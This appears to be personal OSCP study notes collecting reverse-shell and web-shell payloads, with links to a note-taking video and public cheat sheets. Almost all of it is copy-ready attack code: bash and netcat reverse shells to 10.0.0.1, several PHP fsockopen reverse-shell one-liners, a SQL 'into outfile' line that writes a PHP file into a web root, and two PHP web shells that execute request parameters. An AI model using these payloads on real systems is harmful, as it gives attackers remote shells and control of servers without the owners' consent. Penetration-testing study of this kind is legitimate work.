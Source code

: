 ### 26082023Sat

[OSCP - How to Take Effective Notes](https://youtu.be/yYmDQY1zKKE?list=PLDrNMcTNhhYqZU1ySROli7Oc08mxe1tZR)

https://www.youtube.com/@c0nd4

```
/bin/cat cat
```

```
#!/bin/bash
bash -i >& /dev/tcp/10.0.0.1/53 0>&1
```

[Reverse Shell Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Bash

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

### Netcat OpenBsd

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

### [PHP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php)

```
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

```
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

```
'<?php phpinfo(); ?>' into outfile 'C:\\xampp\\htdocs\\try.php'
```

```
<?php if(isset($_REQUEST['cmd'])){echo "<pre>";$cmd = ($_REQUEST['cmd']);system($cmd);echo "</pre>";die;}?>
```

```
<?php system($_GET["cmd"]);?>
```

